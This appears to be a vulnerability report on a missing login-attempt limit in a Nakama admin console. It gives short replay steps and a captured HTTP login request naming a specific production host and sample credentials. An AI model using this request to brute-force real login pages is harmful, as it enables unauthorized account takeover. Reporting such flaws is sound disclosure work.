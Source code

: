 # Description

The Nakama dashboard does not have any limit on the number of failed login attempts in a very short period of time. I can brute force the password without getting locked out of my account

# Proof of Concept

1. Send a login request.
2. Capture the login request
3. Replay the login request with different password value.

HTTP request

```json
POST /v2/console/authenticate HTTP/1.1
Host: api-game.vnshop.vn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, */*
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 46
Origin: https://admin-game.vnshop.vn
Referer: https://admin-game.vnshop.vn/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Sec-Gpc: 1
X-Pwnfox-Color: red
Te: trailers
Connection: close

{"username":"blackjame","password":"12345678"}
```

POC: https://www.notion.so/No-Protection-against-Bruteforce-attacks-on-Login-page-in-7133e7c1a78e47f0991c881e029d9414?pvs=4



# Impact

Login Bruteforce attacks

